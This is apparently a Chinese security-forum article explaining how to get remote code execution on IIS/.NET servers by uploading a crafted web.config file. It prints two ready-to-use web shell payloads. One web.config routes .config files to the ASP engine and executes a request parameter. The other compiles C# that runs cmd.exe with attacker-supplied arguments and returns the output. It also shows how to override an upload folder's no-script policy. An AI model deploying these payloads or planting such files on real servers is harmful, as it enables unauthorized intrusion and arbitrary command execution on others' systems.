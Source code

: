 

# .NET 上传 web.config 文件实现 RCE 思路 - 先知社区

.NET 上传 web.config 文件实现 RCE 思路

- - -

# 0x01 作为 ASP 脚本运行

当某些运行.NET 环境的 IIS 容器也支持托管 ASP 脚本时，有的场景可能会遇到无法直接上传扩展名为 .ASP 的文件，在这种情况下可以通过上传定制化的 web.config 文件来运行经典 ASP 脚本代码。0x01 作为 ASP 脚本运行

```plain
<system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
<!--
<%
Response.write("-"&"->")
Response.write(1+2)
on error resume next
if execute(request("dotnet")) <>"" then execute(request("dotnet"))
Response.write("<!-"&"-")
%>
-->
```

访问 /web.config?dotnet=response.write(now())，页面返回当前日期信息，证明脚本运行成功。如下图所示

[![](assets/1705981862-f6f271ebf17898f995b301505ee42e94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111042-fe4a85cc-b99c-1.png)

# 0x02 作为.NETT 脚本运行

当 Internet Information Service 服务器不支持 ASP 脚本，仅支持.NET 运行环境时，有些漏洞场景可能会遇到无法上传 ashx、aspx、asmx、soap 等扩展名时，可以尝试通过上传定制化的 web.config 文件来运行.NET 代码

```plain
<system.web>
    <compilation defaultLanguage="cs">
      <buildProviders>
        <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />
      </buildProviders>
    </compilation>
    <httpHandlers>
      <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
    </httpHandlers>
  </system.web>
  if (flag){
   System.Diagnostics.Process process = new System.Diagnostics.Process();
process.StartInfo.FileName = "cmd.exe";
  string str = httpContext.Request["c"];
  process.StartInfo.Arguments = "/c " + str;
  process.StartInfo.RedirectStandardOutput = true;
  process.StartInfo.RedirectStandardError = true;
  process.StartInfo.UseShellExecute = false;
  process.Start();
  string str2 = process.StandardOutput.ReadToEnd();
  httpContext.Response.Write("<pre>" + str2 + "</pre>");
  httpContext.Response.Flush();
  httpContext.Response.End();
}
```

访问 /web.config，传入参数 c=tasklist，页面返回当前所有的系统进程，脚本运行成功。如下图所示

[![](assets/1705981862-a0e2908af0e5941822c4c79bea8d8b16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111054-053ffd76-b99d-1.png)

# 0x03 绕过策略限制

web.config 文件可用于配置 IIS 服务器的运行行为，实战中某些上传目录被管理员设定为禁止运行脚本，并且只提供读取操作，不具备修改和写入权限，比如对 uploads 目录下的 web.config 文件配置如下清单

```plain
<system.webServer>
    <handlers accessPolicy="Read,Write">
    </handlers>
</system.webServer>
```

请求/uploads/Shell2asmx.soap 如下图所示

[![](assets/1705981862-6d8faeb168fb459f9fd86abfa4511644.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111101-0988098c-b99d-1.png)

但此时修改 accessPolicy 策略，添加写入、执行、运行脚本权限。即 accessPolicy="Read,Write,Execute,Script"，再向 uploads 目录下上传新配置的这个 web.config，如下图所示

[![](assets/1705981862-ba7648edbe25a583bce4e31ec0c1a532.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111107-0cf90fe4-b99d-1.png)
